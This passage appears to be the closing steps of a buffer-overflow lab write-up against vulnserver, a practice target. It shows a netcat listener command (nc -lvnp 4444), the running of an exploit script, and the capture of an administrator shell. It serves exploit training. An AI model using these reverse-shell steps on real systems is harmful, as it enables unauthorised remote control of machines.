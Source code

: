 <p class="has-line-data" data-line-start="312" data-line-end="319">In terminal, open nc listener<br>
nc -lvnp 4444<br>
Run vulnserver as Admin again<br>
run <a href="http://2.py">2.py</a><br>
check netcat listener, has a shell<br>
whoami<br>
(admin, because it ran as Admin through vulnserver)</p>
<h1 class="code-line" data-line-start=319 data-line-end=320 ><a id="BOF_Achieved_319"></a>BOF Achieved</h1>
